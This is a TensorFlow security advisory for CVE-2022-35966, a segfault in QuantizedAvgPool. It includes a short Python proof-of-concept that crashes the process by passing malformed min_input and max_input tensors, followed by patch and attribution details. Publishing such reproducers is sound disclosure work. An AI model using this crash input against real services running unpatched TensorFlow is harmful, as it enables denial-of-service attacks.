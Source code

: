 ## TFSA-2022-098: Segfault in `QuantizedAvgPool`

### CVE Number
CVE-2022-35966

### Impact
If `QuantizedAvgPool` is given `min_input` or `max_input` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

ksize = [1, 2, 2, 1]
strides = [1, 2, 2, 1]
padding = "SAME"
input = tf.constant(1, shape=[1,4,4,2], dtype=tf.quint8)
min_input = tf.constant([], shape=[0], dtype=tf.float32)
max_input = tf.constant(0, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedAvgPool(input=input, min_input=min_input, max_input=max_input, ksize=ksize, strides=strides, padding=padding)
```

### Patches
We have patched the issue in GitHub commit [7cdf9d4d2083b739ec81cfdace546b0c99f50622](https://github.com/tensorflow/tensorflow/commit/7cdf9d4d2083b739ec81cfdace546b0c99f50622).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
